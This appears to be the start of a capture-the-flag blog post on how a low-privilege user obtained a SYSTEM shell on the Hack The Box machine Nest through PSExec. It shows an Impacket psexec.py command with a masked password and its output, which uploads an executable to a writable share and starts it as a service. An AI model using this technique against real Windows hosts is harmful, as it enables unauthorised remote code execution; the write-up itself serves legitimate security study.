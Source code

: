 

# Digging into PSExec with HTB Nest

#hackthebox #ctf #htb-nest #psexec #smb #windows #scmanager #sddl #dacl
#sacl #ace #icacls Jan 26, 2020






-   [HTB: Nest](/htb-nest.md)
-   [Digging into PSExec](#)




![](/img/nest-unintended-cover.png)

"You have to have administrator to PSExec." That's what I'd always
heard. Nest released on HTB yesterday, and on release, it had an
unintended path where a low-priv user was able to PSExec, providing a
shell as SYSTEM. This has now been patched, but I thought it was
interesting to see what was configured that allowed this non-admin user
to get a shell with PSExec. Given this is a live box, I won't go into
any of the details that still matter, saving that for a write-up in
20ish weeks or so.

## Unintended Exploit

While working on Nest, I managed to acquire a password for the user
TempUser (I'll obfuscate it in this post). Until the patch yesterday
evening, there was a misconfiguration in the box that allowed using
`psexec`.



    root@kali# psexec.py 'tempuser:***********@10.10.10.178'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation                  

    [*] Requesting shares on 10.10.10.178.....
    [-] share 'ADMIN$' is not writable.                   
    [-] share 'C$' is not writable.
    [-] share 'Data' is not writable.
    [-] share 'Secure$' is not writable.                  
    [*] Found writable share Users
    [*] Uploading file AeqkAUZe.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service gMyg on 10.10.10.178.....
    [*] Starting service gMyg.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
